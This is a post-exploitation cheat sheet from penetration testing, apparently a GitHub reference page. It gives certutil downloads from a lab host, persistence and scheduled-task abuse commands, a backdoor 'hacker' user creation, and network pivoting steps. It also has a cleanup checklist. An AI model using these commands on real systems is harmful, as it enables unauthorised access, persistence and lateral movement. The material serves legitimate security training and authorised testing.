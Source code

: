 ## Post Explotation

### File Transfers

certutil
```
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

http
```
python3 -m SimpleHTTPServer 80
```

ftp
```
python -m pyftpdlib 21
ftp 10.10.10.10
```

linux
```
wget
```

### Maintaining Access

persistence scripts
```
run persistence -h
exploit/windows/local/persistence
exploit/windows/local/registry_persistence
```

scheduled tasks
```
run scheduleme
run schtaskabuse
```

add a user
```
net user hacker password123 /add
```

### Pivoting

```
route print
ipconfig
arp -a
```

metasploit
```
run autoroute -s network_ip/cidr
run autoroute -p
bg
```

manual
```
ip route add network_ip/cidr via gateway_ip
```

### Cleanup

Make the system/network as it was when you entered it
- remove executables, scripts, and added files
- remove malware, rootkits, and added user accounts
- set settings back to original configuration
